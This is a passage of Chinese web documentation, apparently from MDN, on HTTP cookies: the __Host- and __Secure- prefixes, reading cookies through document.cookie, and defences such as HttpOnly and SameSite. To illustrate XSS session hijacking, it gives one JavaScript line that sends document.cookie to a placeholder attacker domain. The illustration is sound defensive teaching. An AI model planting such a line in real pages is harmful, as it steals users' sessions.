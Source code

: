 `__Host-`如果 cookie 名称具有此前缀，则仅当它也用 `Secure` 属性标记，是从安全来源发送的，不包括 `Domain` 属性，并将 `Path` 属性设置为 `/` 时，它才在 [`Set-Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie) 标头中接受。这样，这些 cookie 可以被视为 "domain-locked”。

`__Secure-`如果 cookie 名称具有此前缀，则仅当它也用 `Secure` 属性标记，是从安全来源发送的，它才在 [`Set-Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie) 标头中接受。该前缀限制要弱于 `__Host-` 前缀。

带有这些前缀点 Cookie， 如果不符合其限制的会被浏览器拒绝。请注意，这确保了如果子域要创建带有前缀的 cookie，那么它将要么局限于该子域，要么被完全忽略。由于应用服务器仅在确定用户是否已通过身份验证或 CSRF 令牌正确时才检查特定的 cookie 名称，因此，这有效地充当了针对会话劫持的防御措施。

> **备注：** 在应用程序服务器上，Web 应用程序**必须**检查完整的 cookie 名称，包括前缀 —— 用户代理程序在从请求的 [`Cookie`](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Cookie) 标头中发送前缀之前，**不会**从 cookie 中剥离前缀。

有关 cookie 前缀和浏览器支持的当前状态的更多信息，请参阅 [Prefixes section of the Set-Cookie reference article](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie#cookie_prefixes)。

#### JavaScript 通过 Document.cookie 访问 Cookie

通过 [`Document.cookie`](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/cookie) 属性可创建新的 Cookie，也可通过该属性访问非 `HttpOnly`标记的 Cookie。

```
document.cookie = "yummy_cookie=choco";
document.cookie = "tasty_cookie=strawberry";
console.log(document.cookie);
// logs "yummy_cookie=choco; tasty_cookie=strawberry"
```

通过 JavaScript 创建的 Cookie 不能包含 HttpOnly 标志。

请留意在[安全](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies#Security)章节提到的安全隐患问题，JavaScript 可以通过跨站脚本攻击（XSS）的方式来窃取 Cookie。

## 安全

> **备注：** 信息被存在 Cookie 中时，需要明白 cookie 的值是可以被访问，且可以被终端用户所修改的。根据应用程序的不同，可能需要使用服务器查找的不透明标识符，或者研究诸如 JSON Web Tokens 之类的替代身份验证/机密机制。当机器处于不安全环境时，切记*不能*通过 HTTP Cookie 存储、传输敏感信息。

缓解涉及 Cookie 的攻击的方法：

- 使用 `HttpOnly` 属性可防止通过 JavaScript 访问 cookie 值。
- 用于敏感信息（例如指示身份验证）的 Cookie 的生存期应较短，并且 `SameSite` 属性设置为 `Strict` 或 `Lax`。（请参见上方的 [SameSite Cookie](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)。）在[支持 SameSite 的浏览器](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie#browser_compatibility)中，这样做的作用是确保不与跨域请求一起发送身份验证 cookie，因此，这种请求实际上不会向应用服务器进行身份验证。

### 会话劫持和 XSS

在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 [XSS (en-US)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting 'Currently only available in English (US)') 攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

`HttpOnly` 类型的 Cookie 用于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。
